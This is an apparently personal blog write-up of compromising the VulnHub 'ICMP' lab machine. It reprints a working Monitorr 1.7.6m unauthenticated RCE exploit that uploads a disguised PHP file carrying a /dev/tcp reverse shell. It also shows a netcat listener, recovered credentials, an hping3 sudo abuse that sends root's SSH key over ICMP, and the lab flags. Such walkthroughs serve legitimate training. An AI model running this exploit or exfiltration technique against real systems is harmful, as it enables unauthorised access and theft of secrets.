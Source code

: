 ```yaml
---
layout: post
title:  "Case Study : ICMP - VulnHub"
---
```



You’ll find this vm in  `https://www.vulnhub.com/entry/icmp-1,633/`

## Port Scan

```bash
nmap 10.0.2.197 -p-
```

```sh
22/tcp open  ssh
80/tcp open  http
```

## Searchsploit

- If we check the port `80` we will see that it runs the `Monitorr` Software

```bash
searchsploit Monitorr
```

```sh            
  ---------------------------------------------- ---------------------------------
   Exploit Title                                |  Path
  ---------------------------------------------- ---------------------------------
  Monitorr 1.7.6m - Authorization Bypass        | php/webapps/48981.py
  Monitorr 1.7.6m - Remote Code Execution (Unau | php/webapps/48980.py
  ---------------------------------------------- ---------------------------------
```

## Python Script - Edited

```python                                                                                                
  #!/usr/bin/python
  # -*- coding: UTF-8 -*-

  # Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
  # Date: September 12, 2020
  # Exploit Author: Lyhin's Lab
  # Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
  # Software Link: https://github.com/Monitorr/Monitorr
  # Version: 1.7.6m
  # Tested on: Ubuntu 19

  import requests
  import os
  import sys

  if len (sys.argv) != 4:
  	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
  else:
      url = sys.argv[1] + "/mon/assets/php/upload.php"
      headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

      data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

      requests.post(url, headers=headers, data=data)

      print ("A shell script should be uploaded. Now we try to execute it")
      url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
      headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
      requests.get(url, headers=headers)
```

## Reverse Shell

- My VM

```bash
python3 48980.py http://10.0.2.197 10.0.2.15 5555
```
- Listener

```bash
nc -lvp 5555       
listening on [any] 5555 ...
connect to [10.0.2.15] from 10.0.2.197 [10.0.2.197] 46598
www-data@icmp:/var/www/html/mon/assets/data/usrimg$
```

## Enumeration

- reminder

```
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

```bash
cd devel
cat crypt.php

 <?php
  echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
  ?>
```

## SSH Login | USER

- credentials `fox` : `BUHNIJMONIBUVCYTTYVGBUHJNI`
- local.txt : c9db6c88939a2ae091c431a45fb1e59c


## Sudo | hping3
{% highlight sh %}
  $ sudo -l
  [sudo] password for fox:
  Matching Defaults entries for fox on icmp:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

  User fox may run the following commands on icmp:
      (root) /usr/sbin/hping3 --icmp *
      (root) /usr/bin/killall hping3
{% endhighlight %}

## Read root id_rsa using hping3

- Terminal `1`

```bash
sudo -u root /usr/sbin/hping3 --icmp 127.0.0.1 --listen signature --safe
```

- Terminal `2`

```bash
sudo -u root /usr/sbin/hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /root/.ssh/id_rsa
```

- After running the above commands in terminal 1 the id_rsa of root will be printed

## Rooted

```bash
ssh -i id_rsa root@10.0.2.197
```
- proof.txt : 9377e773846aeabb51b37155e15cf638

